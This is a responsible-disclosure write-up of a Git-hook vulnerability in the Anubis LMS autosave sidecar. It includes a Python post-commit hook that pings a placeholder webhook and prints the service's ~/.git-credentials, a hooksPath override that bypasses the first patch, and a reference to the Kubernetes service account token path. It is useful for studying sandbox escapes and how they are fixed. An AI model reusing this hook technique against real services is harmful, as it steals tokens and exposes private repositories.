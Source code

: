 <preview>
#### Abusing Anubis Autosave to Break into Student GitHub Repositories

In this writeup, I’ll be presenting an interesting vulnerability I found that enables an attacker to abuse the assignment autosave functionality to leak sensitive tokens and configurations from an otherwise inaccessible container. An attacker can then use these sensitive tokens to break into the class’s GitHub organization to break into other students’ and faculty’s repositories, and potentially access other sensitive Anubis resources.
</preview>

#### How Anubis Autosave Works

When you boot into Anubis’s [Theia IDE](https://theia-ide.org), you’re interacting with a provisioned Docker container created just for you. From here, you have the opportunity to access a Linux shell inside to build and debug programs for your assignments. One neat feature that has been introduced is the ability to *autosave*, which can be done inside the assignment repository with the following command:

```graphql
$ anubis autosave
```

Once this command is executed, it [calls an HTTP API endpoint](https://github.com/AnubisLMS/Anubis/blob/118f70faccd4ebceb8df4b492469473c7f978396/theia/ide/theia-base/cli/anubis/cli.py#L196-L200) at [http://localhost:5001/](http://localhost:5001/), which actually lives on a *separate container,* but is able to access a shared volume with your IDE container that contains only your assignment repository. When called, this API service then automatically runs Git commands on the repo as `anubis-robot` to commit and push any new changes to the class GitHub to automatically save your progress:

![Untitled](Abusing%20Anubis%20Autosave%20to%20Break%20into%20Student%20GitH%206b539a62cf104f60bb378034ed27b546/Untitled.png)

Having this “sidecar” container is very important: it decouples sensitive functionality from the unprivileged student-facing IDE container. In this instance, having this design pattern means that students are not able to execute Git operations as `anubis-robot`, whose credentials live entirely in the sidecar container in its `~/.git-credentials` path and has Git access to every student and faculty’s codebases in the organization. Thus, the students must make changes, and then run the `anubis autosave` command to interact with your codebase over the shared volume, which will only strictly commit and push to GitHub. Once done, we see the tool spit out some Git output, which was originally from the remote service:

![Untitled](Abusing%20Anubis%20Autosave%20to%20Break%20into%20Student%20GitH%206b539a62cf104f60bb378034ed27b546/Untitled%201.png)

However, what if there is a way we can make this autosave functionality also spill out `anubis-robot`'s credentials for us to gain privileged access to the `os3224` organization? Even worst, what if we can also arbitrarily run *any* malicious command in the sidecar container itself?

#### The Vulnerability

The vulnerability I found is actually quite trivial, but it does require a bit of background knowledge on some of Git’s obscure yet interesting features. For our exploit, we’ll be relying on [Git Hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks). Git Hooks allows you to write scripts that live in the `.git/hooks` folder in your repository that can arbitrarily execute commands or code before or after you run a Git operation, such as pushing. For instance, a developer can write a Git Hook that automates the deployment of their code to a cloud service or CI/CD when `git push` is run, and then actually push the changes upstream. Keep in mind that Git hook scripts you write exist *only locally*, so it’s not possible for an attacker to write a hook script that drops malware, and then push it to GitHub for other users to clone down.

When realizing how the IDE interacts with the sidecar, and the fact that the `.git` folder itself is also exposed in the shared volume, I immediately wrote a `pre-commit` hook that executes some code on the sidecar container once the service runs `git commit`.

First, I created a `.git/hooks/pre-commit` file in my assignment repository and marked it as executable with `chmod +x .git/hooks/pre-commit`. Inside it, I wrote a simple Python script, as it is supported by Git hooks with the proper `#!/usr/bin/env python3` shebang, and the fact that the sidecar service lives on a container with a [Python image](https://github.com/AnubisLMS/Anubis/blob/118f70faccd4ebceb8df4b492469473c7f978396/theia/sidecar/Dockerfile#L1):

```python
#!/usr/bin/env python3
import os
import urllib.request

# lets us know in the stdout we get back we've succeeded!
print("Pwned!")

# this just pings a random testing `https://webhook.site` URL to show we're alive.
# we could pip install requests, but `urllib` gives us `urllib.request` for free
urllib.request.urlopen("http://<WEBHOOK_URL>")

# dump `anubis-robot`s credential (not the best way to get the path, but whatever)
with open(os.getenv("HOME") + "/" + ".git-credentials", "r") as fd:
	print(fd.read())
```

I ran `anubis autosave` after making some random repo changes and braced for success... but nothing happened. 

It turns out that the Anubis team is pretty security-conscious, and they’ve actually taken a very good step to mitigate this type of vulnerability, by having the service run `git commit --no-verify`, which [prevents pre-hooks from executing](https://github.com/AnubisLMS/Anubis/blob/118f70faccd4ebceb8df4b492469473c7f978396/theia/sidecar/app.py#L62).

**However**, after digging a little further into Git documentation, it turns out that `--no-verify` does not stop *post*-hooks! We go back and change the script to `post-commit`, run `anubis autosave` and...

![Screen Shot 2022-02-01 at 2.17.14 AM.png](Abusing%20Anubis%20Autosave%20to%20Break%20into%20Student%20GitH%206b539a62cf104f60bb378034ed27b546/Screen_Shot_2022-02-01_at_2.17.14_AM.png)

Success! We now have access to `anubis-robot`'s username and password token pair! Judging by the `ghp_*` prefix in the API token, we now have stolen a personal access token. **If I was feeling evil, I can now use this to access any student’s (and potentially faculty’s) private repositories just through the GitHub API.**

We can even go a step further and dump out all the sensitive environment variables to see what other cloud resource endpoints we could potentially abuse as an attacker:

![Screen Shot 2022-02-01 at 2.31.58 AM.png](Abusing%20Anubis%20Autosave%20to%20Break%20into%20Student%20GitH%206b539a62cf104f60bb378034ed27b546/Screen_Shot_2022-02-01_at_2.31.58_AM.png)

This is of course blurred out because there is quite a bit of sensitive variables being set that shouldn’t be exposed to the student, such as the Kubernetes service API, which we could abuse with the `/run/secrets/kubernetes.io/serviceaccount/token` JWT token stored in the container to potentially enumerate and mess with sensitive resources that also exist in the Anubis infrastructure. Unfortunately, this didn’t work on my end, but was worth a shot.

#### Remediation

During the process of discovering this vulnerability, I kept in contact with John, and immediately reported this attack vector, which he patched almost instantaneously. The GitHub credentials were rotated, and a mitigation was pushed up that prevented Git hooks. This patch basically introduced a *global* change where Git hooks are basically disabled from ever running:

```yaml
[code]
hooksPath = /dev/null
```

However, given Git’s annoyingly complex features, this initial mitigation didn’t work. To override *global* Git configurations, all we have to do is to create a *local* one in the assignment repository either through `.git/config` or creating a `.gitconfig` file with the contents:

```yaml
[core]
hooksPath = "githooks/hooks"
```

.. and then create a directory in the repository called `githooks/hooks`, drop our malicious Git `post-commit` hook, and we can still exploit!

After spending some time sifting through Git’s documentation to determine conditions that can still lead to arbitrary code execution, a more bulletproof patch has since been integrated, which can be seen in [this commit here](https://github.com/AnubisLMS/Anubis/commit/72dc0233049e0b82f90e67d715c8bbc435509815), where each `git` operation now prevents *any* Git hook and clever aliasing to run. Other potential changes to restricting access pre- and post-exploitation are also being planned.

#### Conclusion

Despite the existence of this, it’s still important to mention this vulnerability didn’t exist because of poor implementation, but rather pesky obscure behaviors that can be abused in a dependent software component. After dedicating some time auditing the platform, Anubis is still very well secure and upholds incredibly strong design principles, which I’ll lay out here:

- Open Sourced

By remaining open-sourced, Anubis not only enables community collaboration, but also auditability of their codebase, as it enables well-intentioned hackers to quickly pinpoint and remediate severe bugs that can be exploited. For instance, having access to both documentation written by the team and infrastructure code [here](https://github.com/AnubisLMS/Anubis/blob/master/theia/sidecar/Dockerfile#L15) enabled me to quickly realize that the autosave functionality actually operates on a shared volume per assignment.

- Security Advocacy

Some members of the Anubis team have a strong security background. This means they not only thought about the attack surface during implementation and enforced strong access controls, but also encouraged others to responsibly attack and disclose vulnerabilities. Encouraging others  to do this to ultimately improve your software’s security posture is very positive shift in the industry security, yet still not widely adapted.

Overall this was a fun challenge to pull off, and was happy to pick up a few extra tricks for container and Kubernetes (ethical) hacking. Huge shoutout to John for giving permission to do this, and to bounce off questions about the design of the infrastructure!
